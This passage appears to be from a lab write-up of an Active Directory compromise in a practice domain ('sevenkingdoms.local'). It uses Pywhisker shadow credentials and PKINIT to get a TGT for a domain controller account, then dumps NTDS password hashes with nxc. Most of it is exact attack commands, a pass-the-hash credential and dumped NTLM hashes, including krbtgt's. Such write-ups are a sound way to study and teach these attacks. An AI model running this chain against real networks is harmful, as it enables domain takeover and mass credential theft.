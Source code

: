 I could now validate that all went well by simply switching the `--action` argument to `list` from `write` and checking the attached `DeviceIDs`.

```
# python3 pywhisker.py -d essos.local -u daenerys.targaryen -H 34534854d33b398b66684072224bb47a --target "KINGSLANDING$" -td SEVENKINGDOMS.LOCAL --action list --dc-ip 10.2.10.10

[*] Searching for the target account
[*] Target user found: CN=KINGSLANDING,OU=Domain Controllers,DC=sevenkingdoms,DC=local
[*] Listing devices for KINGSLANDING$
[*] DeviceID: 1b5a45bf-ba8e-14ee-414c-446a2815ced6 | Creation Time (UTC): 2024-08-16 17:13:18.980633
```

The `DeviceID` corresponds to the one previously spit out by Pywhisker during my initial run, so I should be good to go.

To request a TGT using the .pfx certificate generated by Pywhisker, I needed to employ the [PKINITTools](https://github.com/dirkjanm/PKINITtools), specifically the `gettgtpkinit.py` tool.

```
# python3 gettgtpkinit.py -cert-pfx ~/Desktop/creds/cert.pfx -dc-ip 10.2.10.10 SEVENKINGDOMS.LOCAL/KINGSLANDING\$ -pfx-pass sc9toXJDPxoTeLNnXUoh kingslanding.ccache

2024-08-16 13:24:33,881 minikerberos INFO     Loading certificate and key from file
2024-08-16 13:24:33,892 minikerberos INFO     Requesting TGT
2024-08-16 13:24:33,905 minikerberos INFO     AS-REP encryption key (you might need this later):
2024-08-16 13:24:33,905 minikerberos INFO     f5d0575e8821daf05385f6f468ce54bd685cb4f4e609ce94f72d97545b9acb07
2024-08-16 13:24:33,907 minikerberos INFO     Saved TGT to file
```

*Note: you can go a step further and use `getnthash.py` to get yourself the NTLM hash for `KINGSLANDING`.*

With the TGT saved to .ccache file, I could now proceed to extract the NTDS from the DC and complete the compromise.

```
# KRB5CCNAME=./kingslanding.ccache nxc smb 10.2.10.10 --use-kcache --ntds --dns-server 10.2.10.10

[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] sevenkingdoms.local\KINGSLANDING$ from ccache
SMB         10.2.10.10      445    KINGSLANDING     [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         10.2.10.10      445    KINGSLANDING     [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.2.10.10      445    KINGSLANDING     Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
SMB         10.2.10.10      445    KINGSLANDING     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.2.10.10      445    KINGSLANDING     krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0637ab576c34b0072d09cda7dbc7e667:::
SMB         10.2.10.10      445    KINGSLANDING     localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
SMB         10.2.10.10      445    KINGSLANDING     tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
SMB         10.2.10.10      445    KINGSLANDING     jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
SMB         10.2.10.10      445    KINGSLANDING     cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
SMB         10.2.10.10      445    KINGSLANDING     tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
```